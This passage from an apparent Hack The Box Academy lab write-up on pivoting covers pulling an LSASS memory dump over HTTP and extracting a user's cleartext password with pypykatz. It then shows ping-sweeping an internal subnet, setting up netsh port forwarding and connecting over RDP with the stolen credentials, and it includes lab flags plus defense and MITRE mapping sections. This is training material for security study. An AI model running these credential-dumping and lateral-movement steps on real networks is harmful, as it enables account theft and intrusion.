
And now 'lsass.DMP is on the target machine 1.
Lets get it to the pwnbox.
Lets run the normal python server in the target machine 1:
```bash
python3 -m http.server 8080
```

and download it on the pwnbox:
```bash
wget http://<target-IP>:8080/lsass.DMP
```


*_Figure 43.1 — Lab execution and output verification (Page 43)_*


*_Figure 43.2 — Lab execution and output verification (Page 43)_*


*_Figure 43.3 — Lab execution and output verification (Page 43)_*


*_Figure 43.4 — Lab execution and output verification (Page 43)_*


### Somewhere along the gibberish we will find this

The lsass.DMP in on the pwnbox.
Now to analyse it, we will install the tool 'pypykatz' using pip3:
pip3 install pypykatz

and when installed, lets analyze the lsass content with the tool, the output size
may be overwhelming, so we will grep for 'Password'
pypykatz lsa minidump lsass.DMP | grep Password


* *
Somewhere along the gibberish we will find this:

We found a valid password – 'Imply wet Unmasked!', but to whom it belongs
to?

We will determine that with by searching for the found password within the
lsass analysis:
pypykatz lsa minidump lsass.DMP | grep 'Imply wet Unmasked!'
-B 2
for every occurrences of the password – we print it and the 2 lines above it ('-B
2'):


*_Figure 44.1 — Lab execution and output verification (Page 44)_*


*_Figure 44.2 — Lab execution and output verification (Page 44)_*


*_Figure 44.3 — Lab execution and output verification (Page 44)_*


### we will use the powershell script

> **Lab Question (Page 45)**: For your next hop enumerate the networks and then utilize a common remote access solution to pivot. Submit the C:\Flag.txt located on the workstation.
>
> **Flag / Answer**: `N3tw0rk-H0pp1ng-f0R-FuN`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

running 'ipconfig' on the target machine 2:

Reveals a second internal network '172.16.6.0', which currently is unreachable
from either the pwnbox or the first target machine. we will have to change it.
First lets use the target machine 2 to network scan the '172.16.6.0' network,
we will use the powershell script:
$subnet = "172.16.6."
$activeHosts = @()

for ($i = 1; $i -le 254; $i++) {
$ip = $subnet + $i
$pingResult = ping -n 1 -w 1000 $ip

if ($pingResult -match "Reply from $ip") {
$activeHosts += $ip
Write-Host "$ip is active"
}
}

Write-Host "`nActive hosts:"
$activeHosts


*_Figure 45.1 — Lab execution and output verification (Page 45)_*


### We open powershell AS ADMINISTRATOR, and add the rule

#### Technical Methodology & Exploit Execution:

netsh.exe interface portproxy show v4tov4


The port forwading rule is established. Now we can RDP connect to 172.16.6.25
from the pwnbox (as we already have established forwarding from the pwnbox
to 172.16.5.35 + the port forwarding in 172.16.5.35 – combined we have pivot
from the pwnbox to 172.16.6.25).
We will use the command:
```bash
xfreerdp /v:172.16.5.35:8080 /u:vfrank /p:'Imply wet
```
Unmasked!' /dynamic-resolution


*_Figure 46.1 — Lab execution and output verification (Page 46)_*


*_Figure 46.2 — Lab execution and output verification (Page 46)_*


### using 'vfrank' credentials found in the previous question

> **Lab Question (Page 47)**: we are in! lets get the flag from 'C:\Flag.txt' Question: Submit the contents of C:\Flag.txt located on the Domain Controller.
>
> **Flag / Answer**: `3nd-0xf-Th3-R@inbow!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

on '172.16.5.25' – lets open powershell (or cmd) and enter
ipconfig


*_Figure 47.1 — Lab execution and output verification (Page 47)_*


*_Figure 47.2 — Lab execution and output verification (Page 47)_*


*_Figure 47.3 — Lab execution and output verification (Page 47)_*


### explorer, and go to 'This PC'

We have a THIRD internal network – 172.16.10.x where the target machine 3
(172.16.6.25) IP there is 172.16.10.25.

(lets rehearse what we have so far) – pwnbox, target machine 1 (10.129.x.x) on
the default network.
Then target machine 1 in the first internal network 1 172.16.5.x – where its IP
there is 172.16.5.15.
In that first internal network, there is the target machine 2 whose IP is
172.16.5.35.

That target machine 2 is a member of a second internal network – 172.16.6.x.
Whose IP there is 172.16.6.35. In that second internal network there is a target
machine 3, whose IP there is 172.16.6.25.

Now the target machine 3 is also a member of a third internal network –
172.16.10.x. whose IP there is 172.16.10.25.
we need to investigate further the third internal network.

In the target machine 3 (that we had just obtained RDP to), open the file
explorer, and go to 'This PC':


*_Figure 48.1 — Lab execution and output verification (Page 48)_*


There is this 'Z:' Network Drive of 'AuromateDCAdmin', lets open it:


We have the flag right on the drive.


*_Figure 49.1 — Lab execution and output verification (Page 49)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1090.001, T1090.002, T1572` |
| **Common Weakness Enumerations** | `CWE-284` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1090.001`](https://attack.mitre.org/techniques/T1090/) | **Proxy: Internal Proxy** | `Command and Control` | Routing traffic through compromised intermediate hosts |
| [`T1090.002`](https://attack.mitre.org/techniques/T1090/) | **Proxy: External Proxy** | `Command and Control` | Chaining reverse tunnels out of restricted internal zones |
| [`T1572`](https://attack.mitre.org/techniques/T1572/) | **Protocol Tunneling** | `Command and Control` | Encapsulating raw TCP/UDP within SSH, HTTP, or DNS tunnels |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-284`: Improper Access Control - Insufficient Network Perimeter Isolation](https://cwe.mitre.org/data/definitions/284.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Monitor network edge firewalls for sustained SSH or reverse SOCKS proxy connections originating from internal servers.
- Deploy deep packet inspection (DPI) to detect protocol tunneling (e.g., SSH over port 80/443, DNS tunneling).
- Restrict host-to-host lateral communication through host-based firewalls (Windows Defender Firewall, iptables).


---

## Authoritative References & Recommended Reading

- [HTB Academy: Pivoting, Tunneling, and Port Forwarding](https://academy.hackthebox.com/module/158) — *Official Hack The Box curriculum track*
- [Chisel Fast TCP/UDP Tunneling Documentation](https://github.com/jpillora/chisel) — *Chisel HTTP-based tunnel implementation*
- [Ligolo-ng Modern Tun/Tap Pivoting Tool](https://github.com/nico-cha/ligolo-ng) — *Modern multi-platform tunneling framework*
- [RFC 4251: The Secure Shell (SSH) Protocol Architecture](https://www.ietf.org/rfc/rfc4251.txt) — *Technical SSH port forwarding standards*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-21-windows-privilege-escalation/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 21: Windows Privilege Escalation</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 22 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-23-api-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 23: Web Service & API Attacks (REST, GraphQL & SOAP)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
